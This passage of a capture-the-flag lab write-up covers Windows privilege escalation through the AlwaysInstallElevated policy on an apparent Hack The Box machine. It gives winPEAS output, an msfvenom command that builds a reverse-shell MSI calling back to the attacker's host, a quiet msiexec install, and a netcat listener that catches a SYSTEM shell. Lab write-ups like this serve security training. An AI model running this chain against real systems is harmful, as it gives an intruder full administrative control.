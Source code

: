 
1. Start by running winPEAS.bat, reading it thoroughly we see that 'AlwaysInstallElevated' is enabled.

  PS C:\Users> //10.10.14.51/share/winPEAS.bat
    ..
    _-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] AlwaysInstallElevated? <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
    [i] If '1' then you can install a .msi file with admin privileges ;)
      [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

    HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
        AlwaysInstallElevated    REG_DWORD    0x1

    HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
        AlwaysInstallElevated    REG_DWORD    0x1


2. Create a reverse msi-payload, upload it to the victim and trigger to grab a SYSTEM session.

  [root:/git/htb/love]# msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=4499 --format msi --out AlwaysInstallElevated.msi
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of msi file: 159744 bytes
    Saved as: AlwaysInstallElevated.msi


  C:\temp>copy \\10.10.14.51\share\AlwaysInstallElevated.msi .
  PS C:\temp> msiexec /quiet /qn /i AlwaysInstallElevated.msi

  [root:/git/htb/love]# nc -lvnp 4499                                                                                               (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.51] from (UNKNOWN) [10.129.128.40] 64323
    Microsoft Windows [Version 10.0.19042.928]
    (c) Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32> whoami
      nt authority\system

    C:\WINDOWS\system32> type C:\Users\Administrator\Desktop\root.txt
      a9ace27cdf26ccc8a607e4f296791c4c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


AlwaysInstallElevated:
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
